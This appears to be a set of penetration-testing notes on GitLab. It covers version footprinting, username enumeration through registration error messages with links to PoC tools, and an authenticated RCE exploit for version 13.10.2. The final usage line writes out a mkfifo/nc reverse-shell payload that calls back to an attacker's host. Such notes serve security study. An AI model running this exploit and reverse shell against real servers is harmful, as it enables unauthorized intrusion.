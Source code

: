 # Gitlab

## **Introduction**

> * GitLab is an open source end-to-end software development platform with built-in version control, issue tracking, code review, CI/CD, and more.
> * There's not much we can do against GitLab without knowing the version number or being logged in.
> * In some cases, you can register a user accoun without admin confirmation

***

## **GitLab Footprinting & Enumeration**

* There's not much we can do against GitLab without knowing the version number or being logged in.
* The only way to footprint the GitLab `version number` in use is by browsing to the `/help` page when logged in.
* Some GitLab istances may `allow user registration` without confirmation from an administrator
* Authenticated: browsing to `/explore` we can check for any `public projects` that may contain something interesting

***

## **GitLab User Enumeration**

* We can enumerate valid (used) usernames by using the registration form error messages
* Resources (PoCs for enumerating users):
  * [https://www.exploit-db.com/exploits/49821](https://www.exploit-db.com/exploits/49821)
  * [https://github.com/dpgg101/GitLabUserEnum](https://github.com/dpgg101/GitLabUserEnum)

***

## **GitLab Authenticated RCE**

* **Affected version:** `13.10.2`
* **Exploit:** [https://www.exploit-db.com/exploits/49951](https://www.exploit-db.com/exploits/49951)
* **PoC Usage:**\
  `python3 gitlab_13_10_2_rce.py -t http://gitlab.test.example:8081 -u user -p password -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc your-ip your-nc-port >/tmp/f '`
